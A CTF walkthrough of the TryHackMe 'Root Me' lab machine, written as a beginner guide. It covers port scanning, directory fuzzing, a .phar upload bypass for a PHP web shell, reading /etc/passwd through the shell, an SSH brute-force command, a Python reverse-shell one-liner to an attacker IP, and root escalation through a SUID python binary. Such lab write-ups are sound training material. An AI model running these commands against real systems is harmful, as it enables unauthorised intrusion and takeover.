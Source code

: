 +++
title = "TryHackMe - Root Me"
tags = [
    "ctf"
]
date = "2022-10-03"
toc = true
+++

# Premise

`RootMe` is an introductory machine challenge on TryHackMe where the player is presented with a Linux machine they must get access to. This article is written to be more of a guide than a challenge writeup, with the goal of helping newer CTF players accustomed to some of the tools and techniques used for these kinds of challenges.

Throughout this walkthrough you'll see reference to `$target` which is just me storing the IP address of the target machine in an environment variable for easier reference and reuse.

# Recon

A good place to start is to see what the target machine is running, both for services and OS. We can do this by running `nmap` against it with a few flags:

```
sudo nmap -p- -sV -sC -vvv -o nmap.out $target
```

This will scan the full port range of the box, try to determine versions, run default scripts against the target, and dump our output to `nmap.out`. This isn't something you'd probably want to do against a target in a pen test as it will be painfully obvious what you're doing, but for the puposes of these challenges it's just fine.

This scan shows us that we've got TCP 22 (SSH) and 80 (HTTP) open on the target machine, and that it's running Apache 2.4.29.

With these two pieces of information available, next steps would be to see what SSH authentication mechanisms the server can provide, as well as fuzzing the web server to see what directories (and possibly hostnames) it responds on.

```
# Determine what auth types we see
$ ssh -vvv $target

# Fuzz the webserver to see what content may be available
$ ffuf -u http://$target/FUZZ -w ~/gh/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
````

The SSH check shows us that the server will accept password based auth, or public key authentication. Let's keep an eye out for private key files, the ability to add a key to `authorized_keys` for a user, or hints that we can find a password. We can always brute force, and we may need to later, but that's often not ideal.

Fuzzing the webserver shows us the following directories:
- /uploads (this is interesting)
- /panel (also interesting)
- /js
- /css

`uploads` redirects to `panel` which prompts us to uploada file. That'll be the next thing to play around with - see what the site does when we send it data we control. 

# What can we upload? 

Seemingly anything. The first attempt here is to upload a random file, and that's met with `O arquivo foi upado com sucesso!` which roughly translates to `File successfully uploaded!`.

We don't get a path for the uploaded file returned, however, making this slightly less useful. Let's take a closer look at the upload, and response, by capturing the traffic with Burp Suite (or similar tool).

The upload:

```
POST /panel/ HTTP/1.1
Host: 10.10.186.89
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------20201163193198834099211560924
Content-Length: 354
Origin: http://10.10.186.89
DNT: 1
Connection: close
Referer: http://10.10.186.89/panel/
Cookie: PHPSESSID=kdmm74iroebpfj9612h6vrjou5
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

-----------------------------20201163193198834099211560924
Content-Disposition: form-data; name="fileUpload"; filename="bar"
Content-Type: application/octet-stream

foo

-----------------------------20201163193198834099211560924
Content-Disposition: form-data; name="submit"

Upload
-----------------------------20201163193198834099211560924--
```

While the response doesn't give us anything overly interesting, since we know the filename, and the directory structure on the taret, we can make some assumptions. We've uploaded a file called `bar`... let's see if it exists at `http://$target/uploads/bar` - it does!

The other piece of information we see here is that there's a `PHPSESSID` cookie, so we can assume the server is _probably_ running PHP. Since we have arbitrary file upload capability, and we know where the file will land, maybe we can upload a [web shell](https://en.wikipedia.org/wiki/Web_shell) like [this one](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985).

The website prevents us from uploading a file with the `.php` extension, so let's try bypassing that by just uploading it as an `html` file (e.g. `shell.html`). That works, but our shell doesn't seem to be able to actually run any commands. What if we try another PHP file extension like `.phar`? Bingo.

```
curl http://10.10.186.89/uploads/shell.phar\?cmd\=whoami
<html>
<body>
<form method="GET" name="shell.phar">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
www-data
</pre>
</body>
</html>
```

# Running commmands

Now that we've got a way to poke around on the remote machine, let's see if we can find our first flag, and then a way to get direct access. I want to start by exploring the file system - seeing where I am with `pwd`, and dumping directory contents with `ls`. I also want to see what other users we have on the system, so that we can start to try to gain access as one of them:

```
http://10.10.186.89/uploads/shell.phar?cmd=cat+%2Fetc%2Fpasswd
```

Removing the users with no shell, or that we're not interested in, we get the following:

```
root:x:0:0:root:/root:/bin/bash
rootme:x:1000:1000:RootMe:/home/rootme:/bin/bash
test:x:1001:1001:,,,:/home/test:/bin/bash
```

This recon also leads us to our first flag under `/var/www/` which we can retrieve with `http://10.10.186.89/uploads/shell.phar?cmd=cat+%2Fvar%2Fwww%2Fuser.txt`.

# Persistence

Let's see if we can find anything under `/home/test` or `/home/rootme`. Nope, `ls` on either directory returns nothing, so they're either empty or more likely we don't have permission to see anything. While there's no luck on that front, perhaps we can brute force a password for SSH access with `Hydra`:

I'm going to start with the `test` user, and the `RockYou` wordlist:

```
hydra -l test -p ~/tools/rockyou.txt ssh://$target
```

No luck here, but maybe there are some other options. We could look at a few possibilities here:

- We can look for some other interesting privilege escalation mechanisms like binaries with the SUID bit, which may just give us root acces (`find / -user root -perm -4000`).
- Since we can run arbitrary commands, we can probably get a reverse shell.
- We know we can upload files and run arbitrary commands, so we could load something like `linpeas` or `linenum`.

Checking the SUID binaries first, we can see a pretty normal list, however this also includes `/usr/bin/python` which it definitely shouldn't... Can we run commands as `root` simply by invoking them through `python`?

Let's try to pop a [reverse shell](https://www.revshells.com/) from the `root` user. This will mean we need to set up a listener on our machine - `nc -l 9001` - and then spawn the connection from the remote machine to us:

```
export RHOST="10.13.41.1";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

This gets us a reverse shell, but it's still running as the `www-data` user. Let's try using Python directly to get us a root shell since it has the ability to do so in this challenge:

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```

GG!

